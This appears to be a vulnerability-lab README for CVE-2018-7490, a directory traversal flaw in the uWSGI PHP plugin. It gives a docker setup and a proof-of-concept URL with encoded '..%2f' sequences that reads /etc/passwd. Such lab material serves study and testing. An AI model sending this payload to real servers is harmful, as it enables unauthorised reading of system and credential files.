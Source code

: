 
# uWSGI PHP Directory Traversal Vulnerability (CVE-2018-7490)

uWSGI is a web application server, which implements protocols such as WSGI/uwsgi/http, and supports for various languages through plugins.

The PHP plugin of uWSGI before 2.0.17 doesn't handle the detection of `DOCUMENT_ROOT` correctly, resulting in reading or running files outside the `DOCUMENT_ROOT` through the use of `..%2f`.

## Environment Setup

Enter the following command：

```
docker compose up -d
```

Visit `http://your-ip:8080` and you'll see the phpinfo page as the uwsgi-php server running successfully.

## POC

Directly visit `http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`, you will get the passwd file：

![](1.png)
